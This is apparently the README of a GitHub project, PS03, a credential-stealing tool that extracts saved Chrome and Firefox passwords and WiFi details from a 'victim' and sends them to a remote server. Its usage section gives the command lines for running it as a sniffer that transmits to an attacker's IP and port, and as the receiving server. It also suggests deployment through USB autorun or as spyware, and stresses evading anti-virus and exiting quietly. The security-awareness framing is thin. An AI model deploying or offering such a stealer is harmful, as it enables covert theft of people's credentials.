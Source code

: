 # PS03

PS03 is a project which goal is to set more focus on security. Stop saving your passwords in chrome, firefox, don't automaticly connect to WiFi's and so on. This project shows how easy an attacker can get all your passwords ever saved, even without any anti-virus complaining. 

  

![ServersideScreenshot](https://github.com/benlarsendk/PS03/blob/master/screenshot.PNG "Screenshot of serverside")
The above shown screenshot, is the output as seen from serverside.

### Usage
The software is made as both the receiving end as well as the victimside end. It's therefore required to configure the program at startup, such that it does as expected. This software could be used on a USB-stick with autorun capabilities to extract passwordsinformation from a victim. It is also possible to use it as spyware and let the program send the data (AES-encrypted) back to a host.

To configure the program as a sniffer that transmits to a server:
```sh
$ PS03.exe -t -i [ip] -p [port]
```

To configure the program as a serverside receiver:
```sh
$ PS03.exe -r -p [port]
```

If wanted, the program can function without any network communication. To configure the program to run locally
```sh
$ PS03.exe -v
```
The -v (verbose) command can also be used alongside networking to generate report and show output on victimside.
### Credits

PS03 uses code and inspiration from the following authors:

* [DPAPI] - For decrypting Chrome passwords
* [Mark Brittingham] - For simple AES encryption of data
* [SQLite] - For reading the Google Chrome Login Data file
* [3V1L] - For supplying some of the code for decrypting firefox passwords and username.
* [Command Line Parser Library] - for parsing input parameters


### Development

Want to contribute? Please do so. 
If you find an issue, please create it as an issue, and if you want you can fix it and make a pullrequest.

### Version

3.2.0

**CHANGELOG**
3.2.1
- Major boost on performance - now executes in about a second (CPU-depended of course.)
- Fixed usagepercentage


3.2.0
- Merged all solutions in to a single solution and added commandline parameters
- Tweaks on performance


3.1.0
- PS03 can now handle Firefox user profiles. Tested on Firefox version 43.0.1.
- PS03 Generates a report file with most common passwords. This is still in pre-alpha


3.0.2
- Fixed crashes when victim doesn't use chrome or have WLAN
- Fixed send timeout at victimside to exit quietly instead of crash
- General cleanup

   [DPAPI]: <http://www.obviex.com/samples/dpapi.aspx>
   [Mark Brittingham]: <http://stackoverflow.com/questions/165808/simple-two-way-encryption-for-c-sharp>
   [SQLite]: <https://www.sqlite.org/>
   [3V1L]: <http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/>
   [Command Line Parser Library]: <https://commandline.codeplex.com/>
   

